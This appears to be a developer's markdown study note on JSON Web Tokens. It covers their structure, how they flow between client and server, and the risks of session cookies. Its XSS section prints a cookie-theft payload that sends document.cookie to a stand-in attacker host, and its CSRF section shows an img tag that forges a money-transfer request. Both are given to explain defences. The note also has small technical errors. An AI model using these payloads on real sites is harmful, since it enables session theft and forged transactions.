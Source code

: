 # JWT - JSON Web Token
**JWT:** is a open standard for passing claims
### Tutorial:
[Tutorial: http://mherman.org](http://mherman.org/blog/2016/10/28/token-based-authentication-with-node/#.WGpZXDsOZx9.hackernews)
 
### Can be passed:
* as part of URL (Query String)
* form body parameter,
* cookie
* HTTP Header (x-access token)

### JWT is great for single sign-on context
If you have multiple websites, you can use the same token 
across these websites. These websites can share the same token.
The authentication can be done on one website, and the same token is shared among several websites.

## JWT - Structure
A JWT consists of 3 sections **header**, **payload** and **signature** separated with dots.
All sections are base64 encoded! 
**ATTENTION:** the sections are just *encoded*, and **NOT ENCRYPTED**!

####Example:
```

=========           =========
 header             signature
=========           =========
abcabcabc.mnomnomno.xyzxyzxyz
          =========
		   payload
		  =========
```

1. **HEADER**: usually contains 2 parts and is in JSON
	* **typ** - should be "*JWT*"<br>
	* **alg** - hashing algorithm used to encrypt, sign and hash the JWT (HS256, RS256, ES384 etc.) 	

	```javascript
		{
			"typ" : "JWT", 
			"alg" : "HS256"   
		}
	```	
	
2. **PAYLOAD** contains: 
	* the information we need to transmit (e.g.: username, email, firstname, lastname)	-the data used by the application
	* the information related to token itself
	* this data is also referred to "**claims**"
	* A "**claim**" are key-value pairs
		* default keys defined in the JWT-standard: (but you can add your own keys)
		
			```
				iss - issuer			// issuer, which service app is issueing this token
				sub - subject
				aud - audience
				exp - expiration time
				nbf - not before		// not before date
				ist - issued at
				jti - JWT id
			```
			
	#### Example:				
	```javascript
			{
				"iss" : "ABC Service App",
				"name": "Jag",				// custom key
				"admin": false				// custom key
			}
	```

	Again:
	all three (header, payload and signature) need to be base64 encoded.
	Entire information can be seen by a third party. but it cannot be **modified**, without the user noticing it.

3. SIGNATURE**
	* A hash of **header** and **payload** using a **secret**
	
	```javascript
		var s = base64Encode(header)
				+ "."
				+ base64Encode(payload);
		var signature = hashAlgHs256(s, 'secret');		// the header + payload need to match the signature.
		var jwt =  s + "." + base64Encode(signature);   // if they don't match the token is invalid
	```

## JWT - IN REAL WORLD
1. STEP: The client requests token from server (by providing AUTH.Credentials) 
2. STEP: The server checks credentials and creates a TOKEN (JWT) 
3. STEP: The server sends token to client.
4. STEP: The client verifies token, extracts information and stored somewhere at client-side!
5. STEP: From now client uses (persistent) token for subsequents calls to server. No need to send credentials anymore 	
6. STEP: Server verifies token for all subsequent requests
		Server can see when token will expire, at what time it is valid,etc,...
		
## JWT - helpful links
* **Create JWT**<br>
[http://jwtbuilder.jamiekurtz.com/](http://jwtbuilder.jamiekurtz.com/)<br>
[http://jwtbuilder.jamiekurtz.com/](http://jwtbuilder.jamiekurtz.com/)<br>
* **Verify JWT**<br>
[https://jwt.io/](https://jwt.io/)<br>
* **Base64 encode/decode**<br>
[https://www.base64encode.org/](https://www.base64encode.org/)<br>
[https://www.base64decode.org/](https://www.base64decode.org/)<br>
	

## JWT vs. SessionIds

**SessionIds cons:**
* the have no meaning. sessionId=aS37Ha329s
* database heavy: session-ID lookup on *every request*
* cookies need to be secured to prevent cookie (sessionId) hijacking 
* you can do cookie wrong, but when done right they are a good way for securing authentication information on the browser. 

### 3 Attack vectors for cookies:
1. Man-in-the-Middle (MITM)<br>
   Somone "listening on the wire". Easy to do on WIFI!<br>
   **SOLUTION:**<br>
   * Use HTTPS/TLS everywhere a cookie will be transit
   * Set **Secure** flag on cookies. (browser will send cookie only when connection is secure)
   
2. Cross-Site Scripting (XSS)
	This is a very REAL problem<br>
	Happens when attacker code is run inside a browser, on your domain.
	**Can be used to steal your cookies!**
	**EXAMPLE**<br>
	```javascript
	<img src=x onerror="document.body.appendChild(
	 function(){
		var a = document.createElement("img");
		a.src='https://yourarehackednow.com/yourCookies.png/?cookies='document.cookie;return a
	 }())"
	 
	```
	The tag is broken, but this makes the browser to run the onerror code and append and image with cookie-parameter.<br>
	
	**SOLUTION 1:** ESCAPE CONTENT! <br>
	* **Server-side** use well-known, trusted libraries, to ensure dynamic html does not contain executable code.<br>
	  **Do NOT roll your own!**
	* **Client Side**: Escape user input from forms<br>
	
	**SOLUTION 2:** Use HTTPS-Only cookies! <br>
	* set the HttpOnly flag on your authentication cookies.
	* HttpOnly cookies are NOT accessible by the JavaScript environment
	* document.cookie cannot cookie
	* javascript cannot use cookie to determine whether you are logged in or not
	* you need to make a call to the API, that then tells you the status
	
3. Cross-Site Request Forgery (CSRF)
	Exploits the fact that some **HTML tags** do NOT follow the **Same Origin Policy** when making GET requests.
	* <img> is one of those tags
	* **Example:** Attacker puts malicious image into some (his own) web page that the user visits:
	* Lets asume that money can be transfered by following that url:
	
	```html
		<img src="https://trustyapp.com/transferMoney?to=BadGuy&amount=1000" />		
	```
	What happens?<br>
	* Browser sends cookies for trustyapp.com
	* The server trusts cookies AND assumes this was an intended user action.
	* server transfers money!

	**THE SOLUTIONS:**
	* Synchronizer Token (for form-based apps) doesn't help with ajax based rich clients, for those use Double submit cookie
	* Double-Submit Cookie (for modern apps)
	
	## Double submit Cookie:
	
	* Give client 2 Cookies: 
		1. SessionId and 
		2. strong random value
	* Client sends back the random value in a custom **HTTP header**!! Because then the "Same-Origin Policy" kicks in.
	* Browsers doesn't allow custom headers, if we are going to a different domain!
		

**Authentication:** is proving who you are.<br>
**Authorization:** is being granted access to resources.<br>
**Tokens:** are used to persist authentication and get authorization<br>
**JWT** is a token format


JWT look like this:
```
	t21aSKjslsdlwk3lsSKJSlk32d.32ylylasldfkfaMa
	sdflkasdfkmlyiea33ss23asdf2230ylsadsaf
	asdflwjala.alsdfiowoaisdfj_lalalsjfjalSKHE
```

[https://www.youtube.com/watch?v=mecILj3p4VA](https://www.youtube.com/watch?v=mecILj3p4VA)	
